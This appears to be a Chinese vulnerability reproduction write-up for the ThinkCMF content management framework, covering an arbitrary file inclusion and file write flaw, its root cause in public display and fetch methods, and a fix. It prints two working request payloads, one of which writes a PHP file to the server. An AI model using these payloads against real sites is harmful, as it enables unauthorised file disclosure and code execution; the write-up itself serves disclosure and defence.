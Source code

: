 # [漏洞复现]：ThinkCMF框架任意内容包含漏洞
### 漏洞详情
ThinkCMF是一款基于ThinkPHP+MySQL开发的中文内容管理框架。

**利用前提**
```
ThinkCMF X1.6.0

ThinkCMF X2.1.0

ThinkCMF X2.2.0

ThinkCMF X2.2.1

ThinkCMF X2.2.2
```
### 漏洞复现

1. 通过构造a参数的display方法，实现任意内容包含
payload:`http://127.0.0.1/cmfx-X2.2.2/?a=display&templateFile=README.md`

![](img/cmf2.jpg)

2. 通过构造a参数的fetch方法，实现任意文件写入，复现过程中有时能写入，有时无法写入。
payload:`?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>`

![](img/cmf3.jpg)

### 漏洞分析
首先打开index.php，找到项目路径，定位到application

```php
//开启调试模式
define("APP_DEBUG", true);
//网站当前路径
define('SITE_PATH', dirname(__FILE__)."/");
//项目路径，不可更改
define('APP_PATH', SITE_PATH . 'application/');
//项目相对路径，不可更改
define('SPAPP_PATH',   SITE_PATH.'simplewind/');
//
define('SPAPP',   './application/');
//项目资源目录，不可更改
define('SPSTATIC',   SITE_PATH.'statics/');
//定义缓存存放路径
define("RUNTIME_PATH", SITE_PATH . "data/runtime/");
//静态缓存目录
define("HTML_PATH", SITE_PATH . "data/runtime/Html/");
```
打开`application/Portal/Controller/IndexController`，发现display方法，继续追踪HomebaseController

```php
use Common\Controller\HomebaseController; 
/**
 * 首页
 */
class IndexController extends HomebaseController {
	
    //首页 小夏是老猫除外最帅的男人了
	public function index() {
    	$this->display(":index");
    }

}
```

追踪HomebaseController，定位到display方法，display函数的作用是加载模板和页面输出，templateFile为模板文件地址，charset为模板字符集，contentType为输出类型，content为输出内容。另外存在public权限的函数还有fetch，fetch函数的作用是获取页面内容，templateFile为模板文件，content为输出内容，prefix为模板缓存前缀。

![](cmf1.jpg)

### 防御
将HomebaseController.class.php和AdminbaseController.class.php类中display和fetch函数的修饰符改为protected。
**参考**

https://www.freebuf.com/vuls/217586.html

https://mp.weixin.qq.com/s/P3KZ9zXvb94IDFf07A9ItA